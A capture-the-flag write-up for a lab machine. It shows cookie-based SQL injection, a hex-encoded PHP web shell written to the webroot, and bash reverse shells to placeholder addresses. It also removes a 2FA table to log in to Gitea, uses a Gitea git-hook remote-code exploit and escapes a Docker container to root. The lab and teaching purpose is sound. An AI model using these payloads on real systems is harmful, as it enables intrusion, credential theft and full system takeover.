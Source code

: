 ## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20120630.png)

I used gobuster for any hidden directories but got nothing.<br>
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20121211.png)

This confirms that SQLi is the way to go. UNION SELECT works.<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- -` gives databse `webapp`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20122020.png)

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -` gives table `queue`

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -` gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -` gives:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20124149.png)

Using Command : `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -` we got 1 user:<br>
`dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash`
 
 As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.<br>
 `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -`<br>
 Now if it works:

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20142410.png)

It works!<br>
Now to move in , save this : `bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1` to a file and transfer it to the webserver using `<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143013.png)

You should be in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143345.png)

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143630.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144149.png)

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155929.png)

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.<br>
Let's use SSH port forwarding and check out that port<br>
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144717.png)

Signing in as dylan we get a 2 factor authentication.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144927.png)

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20150729.png)

Let's delete the `two_factor table` from `gitea.db`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151132.png)

And we're in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151257.png)

Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.<br>
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.<br> In this hook , we can write a shell script that will get executed after getting a new commit.<br>

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.<br>
Start a netcat listener, then on your local machine :
```
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

![]()

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20154615.png)

Check the `/data/` directory as the files are usually mount to host.<br>

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.<br>
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155558.png)

Back at Dylan's: run `./bash -p` and you got root.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20160038.png)






 
 
 
 



